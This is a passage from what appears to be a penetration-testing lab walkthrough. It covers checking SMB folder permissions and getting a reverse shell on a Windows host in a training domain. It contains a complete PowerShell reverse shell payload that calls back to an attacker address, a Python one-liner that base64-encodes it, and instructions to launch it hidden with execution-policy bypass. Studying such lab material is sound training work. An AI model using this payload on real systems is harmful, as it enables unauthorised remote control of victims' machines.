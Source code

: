```shell
```

`smbcacls` displays that `david` has `R` ( `Read`), `W` ( `Write`), and `X` ( `Execute`) permissions on the folder; therefore, we can write files, and most importantly our exploit script, to the folder.

### Step 2

To establish a reverse shell as `eric` with PowerShell, we can use the `PowerShell #1` Windows reverse shell payload from [revshells.com](https://www.revshells.com/), making sure to replace `IP` with the `Pwnbox` IP and `PORT` with the listener's port:

```PowerShell
$LHOST = "ATTACKER_IP"; $LPORT = ATTACKER_PORT; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()

```

Because we will run the PowerShell payload from a `.bat` or `.vbs` file, we can use Python to convert it to `UTF-16LE` ( `16-bit Unicode Transformation Format Little-Endian`) then base64-encode it to avoid dealing with escaping quotation marks (alternatively, we can directly use the `PowerShell #3 (Base64)` reverse shell from [revshells.com](https://www.revshells.com/)):

```shell
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "10.129.229.84"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'

JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADIAOQAuADIAMgA5AC4AOAA0ACIAOwAgACQATABQAE8AUgBUACAAPQAgADkAMAAwADEAOwAgACQAVABDAFAAQwBsAGkAZQBuAHQAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAE4AZQB0AC4AUwBvAGMAawBlAHQAcwAuAFQAQwBQAEMAbABpAGUAbgB0ACgAJABMAEgATwBTAFQALAAgACQATABQAE8AUgBUACkAOwAgACQATg<SNIP>

```

Then, within a `.bat` file, we will use the `powershell` command and pass to it the switches [-ExecutionPolicy Bypass](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1#-executionpolicy-executionpolicy), [-WindowStyle Hidden](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1#-windowstyle-window-style), and most importantly, [-EncodedCommand/-enc](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_powershell_exe?view=powershell-5.1#-encodedcommand-base64encodedcommand) followed by the PowerShell encoded reverse shell one-liner:


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname